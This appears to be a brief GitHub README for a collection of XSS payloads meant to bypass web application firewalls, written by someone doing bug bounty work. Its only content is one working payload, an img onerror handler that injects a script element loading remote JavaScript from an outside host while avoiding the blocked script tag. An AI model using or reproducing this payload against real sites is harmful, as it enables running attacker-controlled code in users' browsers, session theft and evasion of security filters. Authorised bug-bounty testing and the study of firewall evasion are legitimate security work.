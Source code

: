 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

Inject external javascript without using `<script>` tag since it's blacklisted in almost all modern waf

```
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```
